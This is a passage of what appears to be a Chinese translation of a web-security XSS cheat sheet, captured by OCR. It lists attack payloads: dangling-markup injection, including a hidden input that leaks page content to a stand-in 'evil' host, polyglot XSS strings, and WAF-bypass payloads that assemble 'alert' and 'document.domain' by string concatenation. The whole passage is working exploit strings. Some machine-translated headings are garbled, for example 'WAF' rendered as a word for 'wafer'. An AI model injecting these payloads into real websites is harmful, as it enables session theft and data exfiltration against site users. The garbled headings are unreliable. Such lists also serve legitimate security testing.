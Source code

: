 ```
<frameset><frame src=http://subdomain1.portswigger-labs.net/dangling_markup/name.html name="
```

#### **用隐藏输入中的图像覆盖类型属性**

```
<input type=hidden type=image src="//evil?
```

### **多语言者**

#### **多语言有效载荷 1**

```
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

#### **多语言有效载荷 2**

```
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```

#### **多语言有效载荷 3**

```
javascript:/*--></title></style></textarea></script></xmp><details/open/ontoggle='+/`/+/"/+/onmouseover=1/+/[*/[]/+alert(/@PortSwiggerRes/)//'>
```

### **晶圆绕过全局对象**

#### **XSS 成 JavaScript 字符串:字符串串联(窗口)**

```
';window['ale'+'rt'](window['doc'+'ument']['dom'+'ain']);//
```

#### **XSS 成 JavaScript 字符串:字符串串联(self)**

```
';self['ale'+'rt'](self['doc'+'ument']['dom'+'ain']);//
```

#### **XSS 成 JavaScript 字符串:字符串串联(this)**

```
';this['ale'+'rt'](this['doc'+'ument']['dom'+'ain']);//
```

#### **XSS 成 JavaScript 字符串:字符串串联(上)**

```
';top['ale'+'rt'](top['doc'+'ument']['dom'+'ain']);//
```
